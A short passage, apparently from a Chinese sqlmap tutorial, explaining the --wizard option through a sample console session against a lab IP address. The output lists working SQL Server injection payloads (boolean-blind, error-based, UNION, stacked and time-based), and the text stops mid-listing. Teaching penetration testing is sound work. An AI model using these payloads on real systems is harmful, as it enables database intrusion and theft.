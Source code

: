 参数：–wizard 面向初级用户的参数，可以一步一步教你如何输入针对目标注入。

```
$ python sqlmap.py --wizard

????sqlmap/1.0-dev-2defc30 - automatic SQL injection and database takeover tool

http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:25:26

Please enter full target URL (-u): http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1
POST data (--data) [Enter for None]: 
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 1
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Smart
[3] All
> 1

sqlmap is running, please wait..

heuristic (parsing) test showed that the back-end DBMS could be 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1)? [Y/n] Y
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection points with a total of 25 HTTP(s) requests:
---
Place: GET
Parameter: id
????Type: boolean-based blind
????title: "AND boolean-based blind - WHERE or HAVING clause"
????Payload: id=1 AND 2986=2986

????Type: error-based
????title: "Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause"
????Payload: id=1 AND 4847=CONVERT(INT,(CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (4847=4847) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)))

????Type: UNION query
????title: "Generic UNION query (NULL) - 3 columns"
????Payload: id=1 UNION ALL SELECT NULL,NULL,CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) CHAR(70) CHAR(79) CHAR(118) CHAR(106) CHAR(87) CHAR(101) CHAR(119) CHAR(115) CHAR(114) CHAR(77) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)-- 

????Type: stacked queries
????title: "Microsoft SQL Server/Sybase stacked queries"
????Payload: id=1; WAITFOR DELAY '0:0:5'--

????Type: AND/OR time-based blind
????title: "Microsoft SQL Server/Sybase time-based blind"
????Payload: id=1 WAITFOR DELAY '0:0:5'--

????Type: inline query
```